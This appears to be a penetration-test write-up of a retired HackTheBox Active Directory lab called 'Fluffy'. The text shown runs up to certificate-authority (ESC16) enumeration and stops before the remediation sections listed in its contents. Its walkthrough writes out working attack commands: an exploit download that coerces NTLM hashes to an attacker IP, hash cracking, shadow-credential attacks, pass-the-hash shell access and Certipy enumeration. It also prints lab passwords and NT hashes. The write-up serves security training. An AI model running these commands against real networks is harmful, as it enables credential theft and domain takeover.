# Fluffy — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Easy       | Windows | Active Directory |

> Writeup of a retired Fluffy machine, published for educational/portfolio purposes.
---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. SMB Enumeration](#12-smb-enumeration)
  * [1.3. Document Retrieval and CVE Discovery](#13-document-retrieval-and-cve-discovery)
  * [1.4. NTLM Hash Capture via CVE-2025-24071](#14-ntlm-hash-capture-via-cve-2025-24071)
  * [1.5. Cracking the NetNTLMv2 Hash](#15-cracking-the-netntlmv2-hash)
  * [2.1. BloodHound Enumeration](#21-bloodhound-enumeration)
  * [2.2. Group Manipulation via GenericAll](#22-group-manipulation-via-genericall)
  * [2.3. Shadow Credentials Attack on winrm_svc](#23-shadow-credentials-attack-on-winrm_svc)
  * [2.4. Initial Foothold via WinRM](#24-initial-foothold-via-winrm)
  * [2.5. User Flag](#25-user-flag)
  * [3.1. Targeting ca_svc via GenericWrite](#31-targeting-ca_svc-via-genericwrite)
  * [3.2. Shadow Credentials Attack on ca_svc](#32-shadow-credentials-attack-on-ca_svc)
  * [3.3. ADCS Enumeration — ESC16](#33-adcs-enumeration--esc16)
  * [3.4. ESC16 Exploitation — UPN Manipulation](#34-esc16-exploitation--upn-manipulation)
  * [3.5. Authentication as Administrator](#35-authentication-as-administrator)
  * [3.6. Administrator Access and Root Flag](#36-administrator-access-and-root-flag)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Fluffy / IP: 10.129.97.227` **Platform:** `HackTheBox` **Date Completed:** `October 1, 2026` **Assessment Type:** `Active Directory / Windows Host` **Approach:** `Assumed breach` — tested with `a single set of low-privileged domain credentials`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Fluffy environment. The test began from an assumed-breach position — a single low-privileged domain user account (`j.fleischman`), simulating a scenario in which an attacker has already obtained basic employee credentials through phishing or similar means.

The results are serious. Starting from that ordinary user account, our team was able to gain full administrative control of the organization's primary server — an Active Directory Domain Controller. In a real-world scenario, this would allow an attacker to read every file on the network, take over or create any user account, and cause severe operational disruption, all without physical access to any device.

Five security issues made this possible. They relate to an unpatched file-handling vulnerability that leaked a second user's login details, a weak password that was cracked in seconds, an excessively powerful set of permissions granted to an ordinary staff group, the ability for low-privileged users to register alternative login credentials on other accounts, and a misconfigured internal certificate system that allowed a service account to impersonate the top administrator.

The overall risk is rated **Critical**. The actions outlined in the Remediation Summary section of this report should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address        | Description                                                              |
| ------------------------------ | ----------------------------------------------------------------------- |
| `fluffy.htb / 10.129.97.227`   | Target machine — Windows Server Domain Controller (`DC01.fluffy.htb`)    |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.
---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — SMB share enumeration, document retrieval, and BloodHound-based Active Directory analysis.
3. **Vulnerability Analysis** — identifying an unpatched CVE, weak passwords, over-permissive ACLs, and a misconfigured certificate authority.
4. **Exploitation** — NTLM coercion (CVE-2025-24071) and a Shadow Credentials attack for initial foothold.
5. **Privilege Escalation** — abuse of delegated ACLs and ADCS ESC16 to impersonate the Domain Administrator.
6. **Post-Exploitation** — validating full administrative access, capturing flags, and documenting impact.

---

## Tools Used

| Tool                 | Purpose                                                                        |
| -------------------- | ----------------------------------------------------------------------------- |
| `Nmap`               | Port scanning and service enumeration                                         |
| `smbclient`          | SMB share enumeration and file retrieval                                       |
| `CVE-2025-24071 PoC` | Crafting a malicious archive to coerce NTLM authentication                     |
| `Responder`          | Capturing the NetNTLMv2 hash of the coerced user                              |
| `Hashcat`            | Dictionary-based cracking of the captured NetNTLMv2 hash                       |
| `bloodhound-python`  | Collecting Active Directory data for attack-path analysis                      |
| `BloodHound`         | Visualising ACLs and identifying privilege escalation paths                   |
| `net rpc`            | Adding a controlled user to a target group via delegated rights               |
| `pywhisker`          | Performing Shadow Credentials attacks (writing `msDS-KeyCredentialLink`)       |
| `PKINITtools`        | `gettgtpkinit.py` / `getnthash.py` — PKINIT TGT request and NT hash recovery   |
| `Certipy`            | Enumerating and exploiting the vulnerable ADCS configuration (ESC16)           |
| `Evil-WinRM`         | Hash-based remote shell access via WinRM                                        |

---

## Assessment Summary (Findings Overview)

Starting from a single low-privileged domain account, a document retrieved from an SMB share disclosed that the environment was missing several security patches. One of these, CVE-2025-24071, was exploited to coerce a second user (`p.agila`) into leaking their NetNTLMv2 hash, which was cracked to a weak plaintext password in seconds. BloodHound analysis revealed that `p.agila` held `GenericAll` over a service-account group, which was abused through a chain of delegated permissions and two Shadow Credentials attacks to compromise first `winrm_svc` (foothold) and then `ca_svc`. The `ca_svc` account was then used to exploit a misconfigured Certificate Authority (ESC16) to impersonate the Domain Administrator, resulting in full domain compromise. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 2     |
| Medium        | 1     |
| Low           | 1     |
| Informational | 0     |

| # | Severity | Finding Name                                                                        |
| --- | -------- | ---------------------------------------------------------------------------------- |
| 1 | Critical | Misconfigured Certificate Authority (ESC16) Enabling Domain Administrator Impersonation |
| 2 | High     | Over-Permissive ACLs Enabling Account Takeover (GenericAll / GenericWrite)          |
| 3 | High     | Missing Security Patch Exploited for NTLM Hash Disclosure (CVE-2025-24071)          |
| 4 | Medium   | Shadow Credentials Abuse via Writable `msDS-KeyCredentialLink`                       |
| 5 | Low      | Weak Domain Account Password                                                         |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from a low-privileged domain user to domain Administrator compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

The assessment began from an assumed-breach position with the following provided credentials:

```
j.fleischman / J0elTHEM4n1990!
```

### 1.1. Reconnaissance

```
sudo nmap -p- 10.129.97.227 -sC -sV -Pn
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-01 05:35:05Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0.)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0.)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0.)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0.)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
```

**Findings:** The target is a Windows Server Domain Controller for the `fluffy.htb` domain (`DC01.fluffy.htb`). Key open ports include:

| Port    | Service     | Significance                                                  |
| ------- | ----------- | ------------------------------------------------------------ |
| 53      | DNS         | Domain naming — confirms DC role                              |
| 88      | Kerberos    | Authentication service — confirms DC role                     |
| 139/445 | SMB         | File sharing — high-value enumeration target                  |
| 389/636 | LDAP        | Directory services — BloodHound collection target             |
| 5985    | WinRM       | Remote management — foothold vector once credentials are found |
| 9389    | ADWS        | Active Directory Web Services                                 |

A significant clock skew of roughly seven hours was noted between the attacker host and the DC. Because Kerberos authentication is time-sensitive, this skew had to be accounted for during later certificate-based authentication steps. A host entry was added for name resolution:

```
echo "10.129.97.227 fluffy.htb DC01.fluffy.htb" | sudo tee -a /etc/hosts
```

---

### 1.2. SMB Enumeration

```
smbclient -N -L //fluffy.htb
```

[](./images/shares.png)

**Findings:** Alongside the default administrative shares, a non-default `IT` share is present and is an immediate point of interest, as such shares frequently hold documents and files left behind by administrators.

---

### 1.3. Document Retrieval and CVE Discovery

Using the provided `j.fleischman` credentials, the `IT` share was accessed and a document, `Upgrade_Notice.pdf`, was retrieved:

```
smbclient -U j.fleischman //fluffy.htb/IT
get Upgrade_Notice.pdf
exit
```

The document is an internal "Upgrade Process" notice listing vulnerabilities identified in a recent security audit:

[](./images/pdf.png)

**Findings:** The document disclosed a list of recent CVEs the environment was still exposed to. Of particular interest was **CVE-2025-24071**, a Windows File Explorer vulnerability that allows an attacker to leak a victim's NTLM hash by having them merely browse to a folder containing a specially crafted file.

---

### 1.4. NTLM Hash Capture via CVE-2025-24071

A public proof-of-concept for CVE-2025-24071 was used to generate a malicious archive. When extracted or browsed by a victim, the embedded file forces the victim's machine to authenticate to an attacker-controlled host over SMB:

```
wget https://www.exploit-db.com/download/52310
python3 52310 -i 10.10.15.85 -n malicious -o ./output
```

`Responder` was started to capture the inbound authentication, and the malicious archive was uploaded to the writable `IT` share, where it would be processed by a user or automated process:

```
sudo responder -I tun0
cd output
smbclient //fluffy.htb/IT -U j.fleischman
put malicious.zip
```

[](./images/pagilahash.png)

**Findings:** The user `p.agila` processed the malicious file, and Responder captured their NetNTLMv2 hash:

```
p.agila::FLUFFY:6a080dd0d55bf774:0983C2CB36EC9FE6B12D26D1344D0C7B:010100000000000000F815931051DD018E3C9E6EC0BDDE1A000000000200080045004C0041004A0001001E00570049004E002D00570054004C0048004100590046004B0032004700360004003400570049004E002D00570054004C0048004100590046004B003200470036002E0045004C0041004A002E004C004F00430041004C000300140045004C0041004A002E004C004F00430041004C000500140045004C0041004A002E004C004F00430041004C000700080000F815931051DD01060004000200000008003000300000000000000001000000002000007AC13184FCB81F4C945D65E1855552AA2DB41E181C730A708E0E082E8434DFAD0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00380035000000000000000000
```

---

### 1.5. Cracking the NetNTLMv2 Hash

The captured hash was saved and cracked with Hashcat (mode 5600, NetNTLMv2) against the `rockyou.txt` wordlist:

```
echo 'p.agila::FLUFFY:6a080dd0d55bf774:0983C2CB36EC9FE6B12D26D1344D0C7B:0101...' > hash.txt
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

[](./images/pagilapasswd.png)

**Credentials recovered:** `p.agila` : `prometheusx-303`

The password was cracked in approximately three seconds, confirming it is weak and present in a common wordlist.

---

### 2.1. BloodHound Enumeration

With valid credentials for `p.agila`, Active Directory data was collected and analysed in BloodHound to map privilege escalation paths:

```
bloodhound-python -u p.agila -p 'prometheusx-303' -d fluffy.htb -ns 10.129.97.227 -c all --zip
sudo neo4j console
bloodhound
```

```
INFO: Found AD domain: fluffy.htb
INFO: Found 1 domains
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 1 computers
INFO: Done in 00M 04S
```

**Findings:** BloodHound revealed a clear chain of delegated permissions originating from `p.agila`:

[](./images/serviceaccountperms.png)

- `p.agila` is a member of **SERVICE ACCOUNT MANAGERS@FLUFFY.HTB**.
- **SERVICE ACCOUNT MANAGERS** has **GenericAll** (full control) over the group **SERVICE ACCOUNTS@FLUFFY.HTB**.
- Members of **SERVICE ACCOUNTS** have **GenericWrite** over the user **WINRM_SVC@FLUFFY.HTB** (and, as discovered later, over **CA_SVC@FLUFFY.HTB**).

This chain means that `p.agila` can add themselves to the `Service Accounts` group and then manipulate the service-account users.

---

### 2.2. Group Manipulation via GenericAll

The BloodHound help text for the `GenericAll` edge documents the exact `net rpc` command needed to add a controlled user to the target group:

[](./images/genericallabuse.png)

Using the `GenericAll` right, `p.agila` was added to the `Service Accounts` group:

```
net rpc group addmem "service accounts@fluffy.htb" "p.agila" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S "fluffy.htb"
```

**Result:** `p.agila` is now a member of `Service Accounts` and therefore holds `GenericWrite` over the `winrm_svc` and `ca_svc` user objects.

---

### 2.3. Shadow Credentials Attack on winrm_svc

With `GenericWrite` over `winrm_svc`, a Shadow Credentials attack was performed. This writes attacker-controlled key material to the target's `msDS-KeyCredentialLink` attribute, enabling PKINIT (certificate-based Kerberos) authentication as that user. `pywhisker` was used to add the key credential:

```
python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add" --use-ldaps
```

[](./images/shadowattack.png)

Using the generated certificate, `PKINITtools` was used to request a Kerberos TGT via PKINIT and then recover the account's NT hash:

```
python3 gettgtpkinit.py -cert-pfx ~/output/XdZN9LFg.pfx -pfx-pass hGSAP7dsXxyvsC2S4JRq fluffy.htb/winrm_svc winrm_svc.ccache
KRB5CCNAME=winrm_svc.ccache python3 getnthash.py -key d1ecda28d8a6f5c551b240de8aad455292c162f9bbcd53a03bea062e2d76823a fluffy.htb/winrm_svc
```

[](./images/winrmhash.png)

**NT hash recovered:** `winrm_svc` : `33bd09dcd697600edf6b3a7af4875767`

---

### 2.4. Initial Foothold via WinRM

The recovered NT hash was used to authenticate to WinRM via pass-the-hash:

```
evil-winrm -i fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
whoami
```

[](./images/userflag.png)

**Result:** An interactive PowerShell session was obtained on the Domain Controller as `fluffy\winrm_svc`.

---

### 2.5. User Flag

```
type C:\Users\winrm_svc\Desktop\user.txt
```

**user.txt:** `ecb9397cd5237f0915a5c7ddccadaaad`

*(Captured in the same session shown above.)*

---

### 3.1. Targeting ca_svc via GenericWrite

Returning to the BloodHound analysis, the `Service Accounts` group membership obtained earlier also grants `GenericWrite` over a second service account: `ca_svc`.

[](./images/casvcmembership.png)

**Findings:** The `ca_svc` account is a member of `Cert Publishers`, strongly suggesting it is associated with the Active Directory Certificate Services (ADCS) role. Compromising this account was therefore the natural next step toward abusing the certificate authority.

---

### 3.2. Shadow Credentials Attack on ca_svc

The same Shadow Credentials technique used against `winrm_svc` was repeated against `ca_svc`:

```
python3 ~/output/pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "add" --use-ldaps
```

[](./images/shadowattack2.png)

The certificate was again used with `PKINITtools` to obtain a TGT and recover the account's NT hash:

```
python3 gettgtpkinit.py -cert-pfx oHtoHIQI.pfx -pfx-pass TGsUsCdoG4G0n46o8GWn fluffy.htb/ca_svc ca_svc.ccache
KRB5CCNAME=ca_svc.ccache python3 getnthash.py -key a5f5fb81169e39bf0734c016ca7932028c7cf5d350fe5d6f6be42d432698b281 fluffy.htb/ca_svc
```

[](./images/casvchash.png)

**NT hash recovered:** `ca_svc` : `ca0f4f9e9eb8a092addf53bb03fc98c8`

---

### 3.3. ADCS Enumeration — ESC16

With control of a certificate-related account, Certipy was installed and used to enumerate the certificate authority and its templates:

```
python3 -m venv certipy-venv
source certipy-venv/bin/activate
pip install certipy-ad

certipy find -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.97.227 -stdout
```

```
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    ...
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable.
```

**Findings:** The certificate authority `fluffy-DC01-CA` is vulnerable to **ESC16**. In this misconfiguration, the CA has the security extension (`szOID_NTDS_CA_SECURITY_EXT`) globally disabled, meaning it does not embed the requester's SID into issued certificates. As a result, an attacker who controls an account can temporarily change that account's User Principal Name (UPN) to match a target (such as the Administrator), request a certificate, and the resulting certificate will authenticate as the target.

---

